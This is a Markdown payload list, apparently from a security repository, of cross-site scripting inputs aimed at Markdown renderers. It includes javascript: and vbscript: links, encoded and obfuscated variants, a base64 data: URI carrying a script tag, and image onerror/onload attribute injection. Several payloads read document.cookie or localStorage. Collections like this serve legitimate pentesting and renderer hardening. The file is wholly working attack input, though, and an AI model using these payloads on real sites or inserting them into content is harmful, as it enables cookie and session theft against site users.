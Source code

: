 # Markdown XSS Payloads

[Source](https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md)

## Links

- [Basic](javascript:alert('Basic'))
- [Local Storage](javascript:alert(JSON.stringify(localStorage)))
- [CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
- [URL](javascript://www.google.com%0Aalert('URL'))
- [In Quotes]('javascript:alert("InQuotes")')

## Images

- ![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
- ![Escape SRC - onerror]("onerror="alert('ImageOnError'))

## Fuzzing

- [XSS](javascript:prompt(document.cookie))
- [XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
- [XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
- [XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
- [XSS]: (javascript:prompt(document.cookie))
- [XSS](javascript:window.onerror=alert;throw%20document.cookie)
- [XSS](javascript://%0d%0aprompt(1))
- [XSS](javascript://%0d%0aprompt(1);com)
- [XSS](javascript:window.onerror=alert;throw%20document.cookie)
- [XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
- [XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
- [XSS](vbscript:alert(document.domain))
- [XSS](javascript:this;alert(1))
- [XSS](javascript:this;alert(1&#41;)
- [XSS](javascript&#58this;alert(1&#41;)
- [XSS](Javas&#99;ript:alert(1&#41;)
- [XSS](Javas%26%2399;ript:alert(1&#41;)
- [XSS](javascript:alert&#65534;(1&#41;)
- [XSS](javascript:confirm(1)
- [XSS](javascript://www.google.com%0Aprompt(1))
- [XSS](javascript://%0d%0aconfirm(1);com)
- [XSS](javascript:window.onerror=confirm;throw%201)
- [XSS](javascript:alert(document.domain&#41;)
- ![XSS](javascript:prompt(document.cookie))\
- ![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
- ![XSS'"`onerror=prompt(document.cookie)](x)\
